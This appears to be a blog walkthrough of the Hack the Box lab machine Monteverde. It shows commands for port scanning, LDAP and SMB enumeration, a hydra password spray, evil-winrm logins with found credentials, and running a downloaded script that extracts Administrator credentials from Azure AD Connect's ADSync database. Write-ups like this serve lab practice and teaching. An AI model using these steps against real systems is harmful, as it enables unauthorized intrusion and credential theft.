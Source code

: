 +++
author = "Nick"
categories = ["hack the box", "CTF", "ldap", "evil-winrm", "AzureADSync", "easy", "enum4linux", "hydra", "smb", "smbclient", "medium", "windows"]
date = 2020-06-13T15:00:00Z
description = ""
draft = false
thumbnail = "/images/2020/01/info.png"
slug = "hack-the-box-monteverde"
summary = "Welcome back! Today's write-up will be for the Hack the Box machine Monteverde. This is listed as a medium Windows machine."
tags = ["hack the box", "CTF", "ldap", "evil-winrm", "AzureADSync", "easy", "enum4linux", "hydra", "smb", "smbclient", "medium", "windows"]
title = "Hack the Box - Monteverde"

+++


Welcome back! Today's write-up will be for the Hack the Box machine Monteverde. This is listed as a medium Windows machine.

Let's jump in!

As always, we start with our standard `nmap` scan: `nmap -sC -sV -p- -oA allscan 10.10.10.172`

Here are our results:
```
Nmap scan report for 10.10.10.172
Host is up (0.19s latency).
Not shown: 65516 filtered ports
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-01-15 20:40:56Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49702/tcp open  msrpc         Microsoft Windows RPC
49778/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=1/15%Time=5E1F7660%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 10m35s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-01-15T20:43:18
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 15 15:35:20 2020 -- 1 IP address (1 host up) scanned in 1691.42 seconds
```

We see that we have a bunch of ports open. We see some SMB, RPC, DNS and LDAP. To further our enumeration we will use `enum4linux`. We'll also add `megabank` to our hosts file for further usage.

Command:
`enum4linux -A 10.10.10.172`

This returns a large set of results. The key things we get from this are:

* The domain.
* A user list.
* Domain group memberships.

We'll also try to null authenticate to the SMB port via `smbclient` or `smbmap` but we get no results.

Much like we did in the machine Resolute, we will make a few LDAP queries to see if there is any data stored in the user's AD variables.

Command:
`ldapsearch -x -h megabank -b 'dc=megabank,dc=local' "(&(objectClass=user))" `

We'll take these and put them into a list for use later. I created two lists, one with the domain prefix and another without. We didn't see any data in the AD fields associated with the user accounts. Now we have a few options, with a username list we can try and brute force our way in or continue to look for leaky data and services. Why not both?

First we'll try to use the account name as a password, then we'll try a password list like rockyou. For this we'll use `hydra`. 

Command:
`hydra -L users-nodm.lst -P users-nodm.lst 10.10.10.172 ldap2`

We use the `-L` to specify a username list. 
The `-P` is for a password list.
Then the IP followed by the service we want to use.

![](/images/2020/01/monte_user.gif)

We get a match! `SABatchJobs`:`SABatchJobs`. 

Well, I did not expect that. Normally I would continue with Rockyou.txt but the box is already pretty unstable connection wise, so we'll opt out of that for now and see where we can get with these service account credentials.

Since we have a set of credentials and we know that `WinRM` is running we can try to leverage `evil-winRM`. We try to login but we aren't able to. Next we'll want to try to use these authenticated credentials in order to enumerate the previously spotted `SMB` port.

Command:
`smbmap -u SABatchJobs -p SABatchjobs -H 10.10.10.172`

![](/images/2020/01/monte_smb.gif)

We get a few shares back - C$, E$, azure_uploads, NETLOGON, SYSVOL and users$.

The users$ share is read only, so we'll first start by connecting to this and seeing if there are any credentials saved by the users in thier home directories.

Command:
`smbclient -U SABatchJobs //10.10.10.172/users$`

![](/images/2020/01/image-46.png)

We start looking into each users directory. We only find one file, azure.xml, in mhope's home directory. We download the file with `get`. When we open it up, we see some credentials!

![](/images/2020/01/image-47.png)

Armed with this potential password, we'll try to authenticate as mhope.

Command:
`evil-winrm -i 10.10.10.171 -u mhope -p 4n0therD4y@n0th3r$`

![](/images/2020/01/image-48.png)

We head over to mhope's Desktop and get our User.txt flag. We start to enumerate internally now. We see that `net user mhope` shows him as part of the Azure admins.

![](/images/2020/01/image-49.png)

I then like to run [WindowsEnum.ps1](https://github.com/absolomb/WindowsEnum) on a machine to get a basic idea of my rights and what I can see from the current user. Right away we see Microsoft AADSync. Since I've spent time as a System Engineer, I knew this was the immediate path I would take.

There is a powershell script called [Azure-ADConnect](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1) that will extract the password from the ADSync database. You can also read more on it [here](https://blog.xpnsec.com/azuread-connect-for-redteam/) as well.

The first thing we do is `curl` or `wget` the script.

Command:
`wget https://raw.githubusercontent.com/Hackplayers/PsCabesha-tools/master/Privesc/Azure-ADConnect.ps1`

Next we upload the file via our Evil-WinRM session.

Command:
`upload Azure-ADConnect.ps1`

Next we import the module. Then supply the database location and name and let it rip!

Command:
`import-module ./Azure-ADConnect.ps1`
`Azure-ADConnect -server 127.0.0.1 -db ADSync`

![](/images/2020/01/monte_admin_cred.gif)

Now we have the Administrator credentials, we can try and log back in via Evil-WinRM to see if they work.

![](/images/2020/01/image-50.png)

They do work! We log in, head over to the Administrator's Desktop and snag the root.txt flag!

Hopefully everyone was able to take something away from this blog post. If so, think about sending me some respect over on HTB. Here's my [profile](https://www.hackthebox.eu/home/users/profile/95635).



